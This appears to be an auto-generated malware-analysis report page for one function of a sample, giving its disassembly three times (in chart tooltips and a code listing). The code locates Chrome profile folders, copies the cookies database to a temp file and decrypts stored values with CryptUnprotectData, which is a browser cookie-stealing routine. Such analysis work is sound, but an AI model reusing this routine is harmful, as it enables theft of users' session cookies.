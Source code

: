 ```yaml
---
layout: post
title:  "fcn.00473bc1 @ fb9b7d22bc1c143ac66b0575cbdd088d"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00473bc1
- **Origin (md5):** fb9b7d22bc1c143ac66b0575cbdd088d
- **VirusTotal:** [virustotal.com/gui/file/fb9b7d22bc1c143ac66b0575cbdd088d][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Behaviour Tags
<span class="bhv-tag" id="na">N/A</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [272.4434509277344, -89.60955047607422, '<b><a href="/report/fcn.00473bc1@fb9b7d22bc1c143ac66b0575cbdd088d">fcn.00473bc1</a><br>@fb9b7d22bc1c143ac66b0575cbdd088d</b><br>push 0xe7c<br>mov eax, 0x49ab4c<br>call fcn.00481ea4<br>mov edi, ecx<br>lea eax, [ebp-0x424]<br>mov dword[ebp-0xda4], edi<br>push eax<br>xor esi, esi<br>push esi<br>push esi<br>push 0x801c<br>push esi<br>call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]<br>test eax, eax<br>js 0x473f85<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>lea eax, [ebp-0x424]<br>push str.GoogleChromeUser_Data<br>push eax<br>call ebx<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x834]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x834]<br>push 0x4ae8d0<br>push eax<br>call ebx<br>lea eax, [ebp-0x834]<br>xorps xmm0, xmm0<br>push eax<br>lea ecx, [ebp-0xd98]<br>movlpd qword[ebp-0xdb4], xmm0<br>call fcn.00473a35<br>mov dword[ebp-4], esi<br>lea ecx, [ebp-0xd98]<br>call fcn.00473a57<br>lea ecx, [ebp-0xd98]<br>test al, al<br>je 0x473f80<br>call fcn.0040547a<br>test byte[eax], 0x10<br>je 0x473c54<br>lea ebx, [eax+0x2c]<br>push 0x4ae754<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>push 0x4ae758<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x21c]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x21c]<br>push ebx<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>push eax<br>call ebx<br>push str.cookies<br>lea eax, [ebp-0x21c]<br>push eax<br>call ebx<br>lea eax, [ebp-0xa3c]<br>push eax<br>push 0x104<br>call dword[sym.imp.KERNEL32.dll_GetTempPathW]<br>lea eax, [ebp-0x62c]<br>push eax<br>push esi<br>push 0x4ae770<br>lea eax, [ebp-0xa3c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]<br>push esi<br>lea eax, [ebp-0x62c]<br>push eax<br>lea eax, [ebp-0x21c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_CopyFileW]<br>test eax, eax<br>je 0x473f6e<br>lea ecx, [ebp-0xabc]<br>call fcn.00473faa<br>lea eax, [ebp-0x62c]<br>mov byte[ebp-4], 2<br>push eax<br>lea ecx, [ebp-0xb40]<br>call fcn.00404fdb<br>mov ecx, eax<br>mov byte[ebp-4], 3<br>call fcn.00404b49<br>push eax<br>lea ecx, [ebp-0xe88]<br>call fcn.0041d750<br>lea ecx, [ebp-0xb40]<br>mov byte[ebp-4], 5<br>call fcn.0040501c<br>push ecx<br>lea eax, [ebp-0xe88]<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041da8e<br>lea eax, [ebp-0xda0]<br>mov byte[ebp-4], 6<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041daa4<br>lea eax, [ebp-0xde0]<br>push eax<br>call fcn.0041dab7<br>mov edx, eax<br>lea ecx, [ebp-0xda0]<br>call fcn.0047517d<br>test al, al<br>je 0x473f07<br>push esi<br>lea eax, [ebp-0xa6c]<br>push eax<br>lea eax, [ebp-0xdd4]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>push ecx<br>lea eax, [ebp-0xdcc]<br>mov byte[ebp-4], 7<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.004751c4<br>mov ebx, eax<br>lea eax, [ebp-0xdd0]<br>push ecx<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.0041d96d<br>mov dword[ebp-0xdbc], eax<br>lea eax, [ebp-0xdac]<br>push eax<br>push 1<br>push esi<br>push esi<br>push esi<br>push esi<br>lea eax, [ebp-0xdbc]<br>mov dword[ebp-0xdb8], ebx<br>push eax<br>call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]<br>test eax, eax<br>je 0x473ee8<br>push 2<br>lea eax, [ebp-0xa54]<br>push eax<br>lea eax, [ebp-0xdd8]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>mov byte[ebp-4], 8<br>lea ecx, [ebp-0xa84]<br>push dword[ebp-0xdac]<br>push dword[ebp-0xda8]<br>call fcn.0040a731<br>push ecx<br>lea ecx, [edi+6]<br>mov byte[ebp-4], 9<br>push ecx<br>lea ecx, [ebp-0xdb4]<br>push ecx<br>mov ecx, eax<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xa6c]<br>call fcn.0040b51d<br>push eax<br>call fcn.0047fccc<br>pop ecx<br>push edx<br>push eax<br>lea ecx, [ebp-0xa54]<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>lea ecx, [ebp-0xa84]<br>mov bl, al<br>call fcn.0040b62f<br>test bl, bl<br>je 0x473ecd<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xa54]<br>mov byte[ebp-4], 7<br>call fcn.0040b62f<br>push dword[ebp-0xda8]<br>call dword[sym.imp.KERNEL32.dll_LocalFree]<br>lea ecx, [ebp-0xa6c]<br>mov byte[ebp-4], 6<br>call fcn.0040b62f<br>lea ecx, [ebp-0xda0]<br>call fcn.00474ea7<br>jmp 0x473d8e<br>push ecx<br>lea eax, [edi+6]<br>push eax<br>lea eax, [ebp-0xdb4]<br>push eax<br>push 0x4a3288<br>push esi<br>push esi<br>push 0x4a3288<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>test al, al<br>je 0x473f32<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xdc8]<br>mov byte[ebp-4], 5<br>call fcn.00473fd9<br>lea ecx, [ebp-0xe88]<br>mov byte[ebp-4], 2<br>call fcn.0041d7ec<br>lea ecx, [ebp-0xabc]<br>call fcn.00473fc6<br>jmp 0x473f6b<br>mov dword[ebp-4], esi<br>lea eax, [ebp-0x62c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_DeleteFileW]<br>jmp 0x473c54<br>call fcn.00473a97<br>call fcn.00481df6<br>ret <br><eoc> ', 'point { fill-color: #e0440e; }'],
[-168.6702880859375, -212.77464294433594, '<b><a href="/report/fcn.00473bc1@912f1d013a0d6151bc7a7cef6da1b2a0">fcn.00473bc1</a><br>@912f1d013a0d6151bc7a7cef6da1b2a0</b><br>push 0xe7c<br>mov eax, 0x49ab4c<br>call fcn.00481ea4<br>mov edi, ecx<br>lea eax, [ebp-0x424]<br>mov dword[ebp-0xda4], edi<br>push eax<br>xor esi, esi<br>push esi<br>push esi<br>push 0x801c<br>push esi<br>call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]<br>test eax, eax<br>js 0x473f85<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>lea eax, [ebp-0x424]<br>push str.GoogleChromeUser_Data<br>push eax<br>call ebx<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x834]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x834]<br>push 0x4ae8d0<br>push eax<br>call ebx<br>lea eax, [ebp-0x834]<br>xorps xmm0, xmm0<br>push eax<br>lea ecx, [ebp-0xd98]<br>movlpd qword[ebp-0xdb4], xmm0<br>call fcn.00473a35<br>mov dword[ebp-4], esi<br>lea ecx, [ebp-0xd98]<br>call fcn.00473a57<br>lea ecx, [ebp-0xd98]<br>test al, al<br>je 0x473f80<br>call fcn.0040547a<br>test byte[eax], 0x10<br>je 0x473c54<br>lea ebx, [eax+0x2c]<br>push 0x4ae754<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>push 0x4ae758<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x21c]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x21c]<br>push ebx<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>push eax<br>call ebx<br>push str.cookies<br>lea eax, [ebp-0x21c]<br>push eax<br>call ebx<br>lea eax, [ebp-0xa3c]<br>push eax<br>push 0x104<br>call dword[sym.imp.KERNEL32.dll_GetTempPathW]<br>lea eax, [ebp-0x62c]<br>push eax<br>push esi<br>push 0x4ae770<br>lea eax, [ebp-0xa3c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]<br>push esi<br>lea eax, [ebp-0x62c]<br>push eax<br>lea eax, [ebp-0x21c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_CopyFileW]<br>test eax, eax<br>je 0x473f6e<br>lea ecx, [ebp-0xabc]<br>call fcn.00473faa<br>lea eax, [ebp-0x62c]<br>mov byte[ebp-4], 2<br>push eax<br>lea ecx, [ebp-0xb40]<br>call fcn.00404fdb<br>mov ecx, eax<br>mov byte[ebp-4], 3<br>call fcn.00404b49<br>push eax<br>lea ecx, [ebp-0xe88]<br>call fcn.0041d750<br>lea ecx, [ebp-0xb40]<br>mov byte[ebp-4], 5<br>call fcn.0040501c<br>push ecx<br>lea eax, [ebp-0xe88]<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041da8e<br>lea eax, [ebp-0xda0]<br>mov byte[ebp-4], 6<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041daa4<br>lea eax, [ebp-0xde0]<br>push eax<br>call fcn.0041dab7<br>mov edx, eax<br>lea ecx, [ebp-0xda0]<br>call fcn.0047517d<br>test al, al<br>je 0x473f07<br>push esi<br>lea eax, [ebp-0xa6c]<br>push eax<br>lea eax, [ebp-0xdd4]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>push ecx<br>lea eax, [ebp-0xdcc]<br>mov byte[ebp-4], 7<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.004751c4<br>mov ebx, eax<br>lea eax, [ebp-0xdd0]<br>push ecx<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.0041d96d<br>mov dword[ebp-0xdbc], eax<br>lea eax, [ebp-0xdac]<br>push eax<br>push 1<br>push esi<br>push esi<br>push esi<br>push esi<br>lea eax, [ebp-0xdbc]<br>mov dword[ebp-0xdb8], ebx<br>push eax<br>call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]<br>test eax, eax<br>je 0x473ee8<br>push 2<br>lea eax, [ebp-0xa54]<br>push eax<br>lea eax, [ebp-0xdd8]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>mov byte[ebp-4], 8<br>lea ecx, [ebp-0xa84]<br>push dword[ebp-0xdac]<br>push dword[ebp-0xda8]<br>call fcn.0040a731<br>push ecx<br>lea ecx, [edi+6]<br>mov byte[ebp-4], 9<br>push ecx<br>lea ecx, [ebp-0xdb4]<br>push ecx<br>mov ecx, eax<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xa6c]<br>call fcn.0040b51d<br>push eax<br>call fcn.0047fccc<br>pop ecx<br>push edx<br>push eax<br>lea ecx, [ebp-0xa54]<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>lea ecx, [ebp-0xa84]<br>mov bl, al<br>call fcn.0040b62f<br>test bl, bl<br>je 0x473ecd<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xa54]<br>mov byte[ebp-4], 7<br>call fcn.0040b62f<br>push dword[ebp-0xda8]<br>call dword[sym.imp.KERNEL32.dll_LocalFree]<br>lea ecx, [ebp-0xa6c]<br>mov byte[ebp-4], 6<br>call fcn.0040b62f<br>lea ecx, [ebp-0xda0]<br>call fcn.00474ea7<br>jmp 0x473d8e<br>push ecx<br>lea eax, [edi+6]<br>push eax<br>lea eax, [ebp-0xdb4]<br>push eax<br>push 0x4a3288<br>push esi<br>push esi<br>push 0x4a3288<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>test al, al<br>je 0x473f32<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xdc8]<br>mov byte[ebp-4], 5<br>call fcn.00473fd9<br>lea ecx, [ebp-0xe88]<br>mov byte[ebp-4], 2<br>call fcn.0041d7ec<br>lea ecx, [ebp-0xabc]<br>call fcn.00473fc6<br>jmp 0x473f6b<br>mov dword[ebp-4], esi<br>lea eax, [ebp-0x62c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_DeleteFileW]<br>jmp 0x473c54<br>call fcn.00473a97<br>call fcn.00481df6<br>ret <br><eoc> ', 'null'],
[-54.78987121582031, 230.81466674804688, '<b><a href="/report/fcn.00473bc1@152885a790b99953ce23874f0947b7bd">fcn.00473bc1</a><br>@152885a790b99953ce23874f0947b7bd</b><br>push 0xe7c<br>mov eax, 0x49ab4c<br>call fcn.00481ea4<br>mov edi, ecx<br>lea eax, [ebp-0x424]<br>mov dword[ebp-0xda4], edi<br>push eax<br>xor esi, esi<br>push esi<br>push esi<br>push 0x801c<br>push esi<br>call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]<br>test eax, eax<br>js 0x473f85<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>lea eax, [ebp-0x424]<br>push str.GoogleChromeUser_Data<br>push eax<br>call ebx<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x834]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x834]<br>push 0x4ae8d0<br>push eax<br>call ebx<br>lea eax, [ebp-0x834]<br>xorps xmm0, xmm0<br>push eax<br>lea ecx, [ebp-0xd98]<br>movlpd qword[ebp-0xdb4], xmm0<br>call fcn.00473a35<br>mov dword[ebp-4], esi<br>lea ecx, [ebp-0xd98]<br>call fcn.00473a57<br>lea ecx, [ebp-0xd98]<br>test al, al<br>je 0x473f80<br>call fcn.0040547a<br>test byte[eax], 0x10<br>je 0x473c54<br>lea ebx, [eax+0x2c]<br>push 0x4ae754<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>push 0x4ae758<br>push ebx<br>call fcn.00481af3<br>pop ecx<br>pop ecx<br>test eax, eax<br>je 0x473c54<br>lea eax, [ebp-0x424]<br>push eax<br>lea eax, [ebp-0x21c]<br>push 0x104<br>push eax<br>call fcn.00481a97<br>add esp, 0xc<br>lea eax, [ebp-0x21c]<br>push ebx<br>mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]<br>push eax<br>call ebx<br>push str.cookies<br>lea eax, [ebp-0x21c]<br>push eax<br>call ebx<br>lea eax, [ebp-0xa3c]<br>push eax<br>push 0x104<br>call dword[sym.imp.KERNEL32.dll_GetTempPathW]<br>lea eax, [ebp-0x62c]<br>push eax<br>push esi<br>push 0x4ae770<br>lea eax, [ebp-0xa3c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]<br>push esi<br>lea eax, [ebp-0x62c]<br>push eax<br>lea eax, [ebp-0x21c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_CopyFileW]<br>test eax, eax<br>je 0x473f6e<br>lea ecx, [ebp-0xabc]<br>call fcn.00473faa<br>lea eax, [ebp-0x62c]<br>mov byte[ebp-4], 2<br>push eax<br>lea ecx, [ebp-0xb40]<br>call fcn.00404fdb<br>mov ecx, eax<br>mov byte[ebp-4], 3<br>call fcn.00404b49<br>push eax<br>lea ecx, [ebp-0xe88]<br>call fcn.0041d750<br>lea ecx, [ebp-0xb40]<br>mov byte[ebp-4], 5<br>call fcn.0040501c<br>push ecx<br>lea eax, [ebp-0xe88]<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041da8e<br>lea eax, [ebp-0xda0]<br>mov byte[ebp-4], 6<br>push eax<br>lea ecx, [ebp-0xdc8]<br>call fcn.0041daa4<br>lea eax, [ebp-0xde0]<br>push eax<br>call fcn.0041dab7<br>mov edx, eax<br>lea ecx, [ebp-0xda0]<br>call fcn.0047517d<br>test al, al<br>je 0x473f07<br>push esi<br>lea eax, [ebp-0xa6c]<br>push eax<br>lea eax, [ebp-0xdd4]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>push ecx<br>lea eax, [ebp-0xdcc]<br>mov byte[ebp-4], 7<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.004751c4<br>mov ebx, eax<br>lea eax, [ebp-0xdd0]<br>push ecx<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.0041d96d<br>mov dword[ebp-0xdbc], eax<br>lea eax, [ebp-0xdac]<br>push eax<br>push 1<br>push esi<br>push esi<br>push esi<br>push esi<br>lea eax, [ebp-0xdbc]<br>mov dword[ebp-0xdb8], ebx<br>push eax<br>call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]<br>test eax, eax<br>je 0x473ee8<br>push 2<br>lea eax, [ebp-0xa54]<br>push eax<br>lea eax, [ebp-0xdd8]<br>push eax<br>lea ecx, [ebp-0xda0]<br>call fcn.00474e8e<br>mov ecx, eax<br>call fcn.00475197<br>mov byte[ebp-4], 8<br>lea ecx, [ebp-0xa84]<br>push dword[ebp-0xdac]<br>push dword[ebp-0xda8]<br>call fcn.0040a731<br>push ecx<br>lea ecx, [edi+6]<br>mov byte[ebp-4], 9<br>push ecx<br>lea ecx, [ebp-0xdb4]<br>push ecx<br>mov ecx, eax<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xa6c]<br>call fcn.0040b51d<br>push eax<br>call fcn.0047fccc<br>pop ecx<br>push edx<br>push eax<br>lea ecx, [ebp-0xa54]<br>call fcn.0040b51d<br>push eax<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>lea ecx, [ebp-0xa84]<br>mov bl, al<br>call fcn.0040b62f<br>test bl, bl<br>je 0x473ecd<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xa54]<br>mov byte[ebp-4], 7<br>call fcn.0040b62f<br>push dword[ebp-0xda8]<br>call dword[sym.imp.KERNEL32.dll_LocalFree]<br>lea ecx, [ebp-0xa6c]<br>mov byte[ebp-4], 6<br>call fcn.0040b62f<br>lea ecx, [ebp-0xda0]<br>call fcn.00474ea7<br>jmp 0x473d8e<br>push ecx<br>lea eax, [edi+6]<br>push eax<br>lea eax, [ebp-0xdb4]<br>push eax<br>push 0x4a3288<br>push esi<br>push esi<br>push 0x4a3288<br>lea ecx, [ebp-0xabc]<br>call fcn.00473ab8<br>test al, al<br>je 0x473f32<br>mov byte[edi+5], 1<br>lea ecx, [ebp-0xdc8]<br>mov byte[ebp-4], 5<br>call fcn.00473fd9<br>lea ecx, [ebp-0xe88]<br>mov byte[ebp-4], 2<br>call fcn.0041d7ec<br>lea ecx, [ebp-0xabc]<br>call fcn.00473fc6<br>jmp 0x473f6b<br>mov dword[ebp-4], esi<br>lea eax, [ebp-0x62c]<br>push eax<br>call dword[sym.imp.KERNEL32.dll_DeleteFileW]<br>jmp 0x473c54<br>call fcn.00473a97<br>call fcn.00481df6<br>ret <br><eoc> ', 'null'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

push 0xe7c
mov eax, 0x49ab4c
call fcn.00481ea4
mov edi, ecx
lea eax, [ebp-0x424]
mov dword[ebp-0xda4], edi
push eax
xor esi, esi
push esi
push esi
push 0x801c
push esi
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax, eax
js 0x473f85
mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]
lea eax, [ebp-0x424]
push str.GoogleChromeUser_Data
push eax
call ebx
lea eax, [ebp-0x424]
push eax
lea eax, [ebp-0x834]
push 0x104
push eax
call fcn.00481a97
add esp, 0xc
lea eax, [ebp-0x834]
push 0x4ae8d0
push eax
call ebx
lea eax, [ebp-0x834]
xorps xmm0, xmm0
push eax
lea ecx, [ebp-0xd98]
movlpd qword[ebp-0xdb4], xmm0
call fcn.00473a35
mov dword[ebp-4], esi
lea ecx, [ebp-0xd98]
call fcn.00473a57
lea ecx, [ebp-0xd98]
test al, al
je 0x473f80
call fcn.0040547a
test byte[eax], 0x10
je 0x473c54
lea ebx, [eax+0x2c]
push 0x4ae754
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax, eax
je 0x473c54
push 0x4ae758
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax, eax
je 0x473c54
lea eax, [ebp-0x424]
push eax
lea eax, [ebp-0x21c]
push 0x104
push eax
call fcn.00481a97
add esp, 0xc
lea eax, [ebp-0x21c]
push ebx
mov ebx, dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call ebx
push str.cookies
lea eax, [ebp-0x21c]
push eax
call ebx
lea eax, [ebp-0xa3c]
push eax
push 0x104
call dword[sym.imp.KERNEL32.dll_GetTempPathW]
lea eax, [ebp-0x62c]
push eax
push esi
push 0x4ae770
lea eax, [ebp-0xa3c]
push eax
call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]
push esi
lea eax, [ebp-0x62c]
push eax
lea eax, [ebp-0x21c]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileW]
test eax, eax
je 0x473f6e
lea ecx, [ebp-0xabc]
call fcn.00473faa
lea eax, [ebp-0x62c]
mov byte[ebp-4], 2
push eax
lea ecx, [ebp-0xb40]
call fcn.00404fdb
mov ecx, eax
mov byte[ebp-4], 3
call fcn.00404b49
push eax
lea ecx, [ebp-0xe88]
call fcn.0041d750
lea ecx, [ebp-0xb40]
mov byte[ebp-4], 5
call fcn.0040501c
push ecx
lea eax, [ebp-0xe88]
push eax
lea ecx, [ebp-0xdc8]
call fcn.0041da8e
lea eax, [ebp-0xda0]
mov byte[ebp-4], 6
push eax
lea ecx, [ebp-0xdc8]
call fcn.0041daa4
lea eax, [ebp-0xde0]
push eax
call fcn.0041dab7
mov edx, eax
lea ecx, [ebp-0xda0]
call fcn.0047517d
test al, al
je 0x473f07
push esi
lea eax, [ebp-0xa6c]
push eax
lea eax, [ebp-0xdd4]
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.00475197
push ecx
lea eax, [ebp-0xdcc]
mov byte[ebp-4], 7
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.004751c4
mov ebx, eax
lea eax, [ebp-0xdd0]
push ecx
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.0041d96d
mov dword[ebp-0xdbc], eax
lea eax, [ebp-0xdac]
push eax
push 1
push esi
push esi
push esi
push esi
lea eax, [ebp-0xdbc]
mov dword[ebp-0xdb8], ebx
push eax
call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]
test eax, eax
je 0x473ee8
push 2
lea eax, [ebp-0xa54]
push eax
lea eax, [ebp-0xdd8]
push eax
lea ecx, [ebp-0xda0]
call fcn.00474e8e
mov ecx, eax
call fcn.00475197
mov byte[ebp-4], 8
lea ecx, [ebp-0xa84]
push dword[ebp-0xdac]
push dword[ebp-0xda8]
call fcn.0040a731
push ecx
lea ecx, [edi+6]
mov byte[ebp-4], 9
push ecx
lea ecx, [ebp-0xdb4]
push ecx
mov ecx, eax
call fcn.0040b51d
push eax
lea ecx, [ebp-0xa6c]
call fcn.0040b51d
push eax
call fcn.0047fccc
pop ecx
push edx
push eax
lea ecx, [ebp-0xa54]
call fcn.0040b51d
push eax
lea ecx, [ebp-0xabc]
call fcn.00473ab8
lea ecx, [ebp-0xa84]
mov bl, al
call fcn.0040b62f
test bl, bl
je 0x473ecd
mov byte[edi+5], 1
lea ecx, [ebp-0xa54]
mov byte[ebp-4], 7
call fcn.0040b62f
push dword[ebp-0xda8]
call dword[sym.imp.KERNEL32.dll_LocalFree]
lea ecx, [ebp-0xa6c]
mov byte[ebp-4], 6
call fcn.0040b62f
lea ecx, [ebp-0xda0]
call fcn.00474ea7
jmp 0x473d8e
push ecx
lea eax, [edi+6]
push eax
lea eax, [ebp-0xdb4]
push eax
push 0x4a3288
push esi
push esi
push 0x4a3288
lea ecx, [ebp-0xabc]
call fcn.00473ab8
test al, al
je 0x473f32
mov byte[edi+5], 1
lea ecx, [ebp-0xdc8]
mov byte[ebp-4], 5
call fcn.00473fd9
lea ecx, [ebp-0xe88]
mov byte[ebp-4], 2
call fcn.0041d7ec
lea ecx, [ebp-0xabc]
call fcn.00473fc6
jmp 0x473f6b
mov dword[ebp-4], esi
lea eax, [ebp-0x62c]
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileW]
jmp 0x473c54
call fcn.00473a97
call fcn.00481df6
ret

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/fb9b7d22bc1c143ac66b0575cbdd088d